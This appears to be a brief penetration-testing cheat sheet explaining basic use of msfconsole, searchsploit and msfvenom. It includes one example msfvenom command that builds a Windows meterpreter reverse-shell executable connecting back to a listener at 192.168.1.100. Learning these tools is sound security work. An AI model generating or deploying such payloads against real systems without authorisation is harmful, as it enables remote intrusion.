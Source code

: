 ## Basic usage
- Run the command `msfconsole` to open Metasploit.
- Use `search <vulnerability>` to find different exploits.
- Choose the one you want to use with `use <number>`.
- Use `show options` to select the payload.
- Choose the payload with `set payload <number>`.
- Set the necessary parameters seen with `show options` using `set <parameter> <value>`. Only the ones marked with **yes*** are mandatory.
- To execute, use `run`.
# searchsploit
**SearchSploit** is used to search and locate known exploits and vulnerabilities in a wide variety of software and systems. It utilizes the Exploit Database, which contains an extensive collection of exploits, shellcodes, and security-related references.
```bash
searchsploit <whatever>
```

Once we find the exploit that we need we can know the path where it's stored with the command:
```bash
searchsploit -p<exploit_number>
```
# msfvenom
**msfvenom** is primarily used for generating payloads, which are pieces of code that can be delivered to a target system to exploit vulnerabilities or gain unauthorized access.

```bash
#target_info = java, php, python, windows, ubuntu, etc
msfvenom -l payloads | grep <target_info>
msfvenom -p PAYLOAD [OPTIONS] -f FORMAT [OTHER_OPTIONS]
```
- Example:
```bash
#-f = file extension
#-o = file name
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o payload.exe
#if you want to know the payload options use:
msfvenom -p <payload> --list-options
```